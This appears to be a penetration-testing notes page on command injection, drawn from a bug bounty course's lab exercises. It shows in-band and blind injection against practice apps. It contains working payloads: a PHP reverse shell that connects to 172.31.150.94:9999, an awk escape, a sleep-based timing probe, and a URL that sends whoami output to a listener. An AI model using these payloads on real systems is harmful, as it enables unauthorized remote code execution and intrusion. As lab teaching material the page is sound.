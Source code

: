```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Examples

## In Band

{% hint style="success" %}
**In-Band CI** occurs when the attacker can directly insert and execute malicious commands in a web application or system’s input fields or parameters, using the same channel to both send commands and receive outputs.
{% endhint %}

### Simple Payload

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The application takes our input and passes it into a `curl` command which is then `grep`ped (Figure 1.1). We can start simple by just appending a command using `;`, but this gives no output (Figure 1.2). Next, we can try commenting out the `grep` part by using `#` (Figure 1.3).

<figure><img src="../../../../.gitbook/assets/web_ci_basic_1.png" alt=""><figcaption><p>Figure 1: A basic example of a command injection attack.</p></figcaption></figure>

We can also try to achieve RCE[^1] by first checking what technology is used on the application and then getting a payload from a repository such as [PayloadAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#php) (Figure 2).

{% code overflow="wrap" %}
```bash
;php -r '$sock=fsockopen("172.31.150.94",9999);exec("/bin/sh -i <&3 >&3 2>&3");'#
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_ci_basic_2.png" alt=""><figcaption><p>Figure 2: Achieving RCE.</p></figcaption></figure>

### Complex Payload

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The application we need to test tracks the fleet vehicle's coordinates and calculates the distance between its current position and its destination (Figure 3).

<figure><img src="../../../../.gitbook/assets/web_ci_chall_lab_1.png" alt=""><figcaption><p>Figure 3: Undestanding the application's functionality.</p></figcaption></figure>

We have two fields that are directly inputted within the executed command. We can start by trying to manipulate the second field first (Figure 4).

```bash
# original command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}'

# our goal command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}';whoami;#

# the payload
222)^2))}';whoami;#

# the final command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}';whoami;#)^2))}'
```

<figure><img src="../../../../.gitbook/assets/web_ci_chall_lab_2.png" alt=""><figcaption><p>Figure 4: Executing a successful CI attack.</p></figcaption></figure>

We can achieve RCE with the same logic using the [previously used payload](examples.md#basic) (Figure 5).

{% code overflow="wrap" %}
```bash
222)^2))}';php -r '$sock=fsockopen("172.31.150.94",9999);exec("/bin/sh -i <&3 >&3 2>&3");';#
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_ci_chall_lab_3.png" alt=""><figcaption><p>Figure 5: Achieving RCE via a CI vulnerability.</p></figcaption></figure>

## Blind

{% hint style="success" %}
**Blind CI** occurs when the attacker does not see the output of the injected commands directly. Instead, they infer the success or failure of the commands through side effects or indirect responses.
{% endhint %}

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This time we have the same Network Checker app, but the [previous attack](examples.md#basic) does not work (Figure 6.1). Either something gets filtered, which we can check (Figure 6.2 & 6.3), or we the command is executed but we don't get any output on the front-end.

<figure><img src="../../../../.gitbook/assets/web_ci_blind_1.png" alt=""><figcaption><p>Figure 6: An unsuccessful CI attack.</p></figcaption></figure>

We can try a payload that alters the application's behaviour (similar to [Blind SQLi](../sqli/blind.md)) and see if this works. This can be tested with Burp Suite's Repeater, as it shows the response time in the bottom right corner (Figure 7).

```bash
localhost?q=`sleep 5`
```

<figure><img src="../../../../.gitbook/assets/web_ci_blind_2.png" alt=""><figcaption><p>Figure 7: Confirming a blind CI vulnerability.</p></figcaption></figure>

We also use `time` and `curl` to measure the response time within the CLI.

```bash
$ time curl "http://localhost?q=localhost"
<html>
<SNIP>
</html>

real    0m0.062s # Normal response time
user    0m0.006s
sys     0m0.000s

$ time curl "http://localhost?q=`sleep+5`"
<html>
<SNIP>
</html>

real    0m5.063s # The 'sleep 5' payload worked
user    0m0.003s
sys     0m0.003s
```

Next, we can achieve RCE[^2] by spawning up a web server and passing the desired command as a parameter (Figure 8).

```bash
http://172.31.150.94:9999/?q=`whoami`
```

<figure><img src="../../../../.gitbook/assets/web_ci_blind_3.png" alt=""><figcaption><p>Figure 8: Achieving RCE via a blind CI vulnerability.</p></figcaption></figure>

[^1]: Remote Code Execution

[^2]: Remote Code Execution

